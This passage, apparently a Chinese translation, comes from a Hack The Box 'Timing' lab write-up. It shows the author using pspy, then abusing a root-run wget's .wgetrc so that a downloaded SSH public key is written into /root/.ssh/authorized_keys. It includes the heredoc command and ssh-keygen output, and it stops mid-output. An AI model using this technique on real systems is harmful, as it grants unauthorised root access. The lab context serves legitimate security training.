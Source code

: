 Pspy 在盒子上运行

在我们当前的 SSH 会话中运行，登录到第二个会话，然后再次运行 netutils。像以前一样，对 FTP 使用选项 0，对 HTTP 使用选项 1，再次尝试获取我的 pencer.jpg 文件。现在切换回 pspy64 会话，看看发生了什么:

![](img/091eb655470cea31bc7d5ef3697ebed4.png)

Pspy 显示正在使用 wget

# Wget 漏洞利用

我们可以看到 netutils java 应用程序使用 wget 进行 FTP 连接，使用 axel 进行 HTTP 连接。我后来发现通过利用 axel 来完成这个盒子是可能的，但是我是使用 FTP 来完成的，所以我们将遵循那个方法。

还有另一个叫 Kotarak 的 HTB 盒子也有类似的路径，[这个](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)走过帮助了我。需要知道的关键部分是 wget 在运行时会寻找一个启动文件。从这里的文档[我们可以看到它是如何工作的:](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html)

```
When initializing, Wget will look for a global startup file, /usr/local/etc/wgetrc by default (or some prefix other than /usr/local, if Wget was not installed there) and read commands from there, if it exists.

Then it will look for the user’s file. If the environmental variable WGETRC is set, Wget will try to load that file. Failing that, no further attempts will be made.

If WGETRC is not set, Wget will try to load $HOME/.wgetrc.
```

在这个盒子上，我们发现没有全局文件，所以我们可以通过创建我们自己的文件来利用它。aaron 的/home 文件夹中的 wgetrc 文件。查看可用的命令[这里](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html)我们看到有一个选项可以设置检索文件的名称和路径。我们可以以 root 用户身份运行 java 应用程序，这样我们就可以将/root 作为可写位置进行访问。让我们把 Kali 公共 SSH 密钥放在那里，这样我们就可以以 root 用户身份登录，不需要密码。

首先创建。/home/aaron 中的 wgetrc 配置文件:

```
aaron@timing:~$ cat <<_EOF_>.wgetrc
> output_document = /root/.ssh/authorized_keys
> _EOF_
```

如果需要，在 Kali 上创建我们的 SSH 密钥:

```
┌──(root💀kali)-[~]
└─# ssh-keygen          
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:B/SsKx8Z8AU/c40jKybaq8OpWpTVdl2Yz0e/ktMxXxY root@kali
The key's randomart image is:
+---[RSA 3072]----+
|        o  o.    |
|     . . *o. o.E |
|    . + o Xo+....|
```
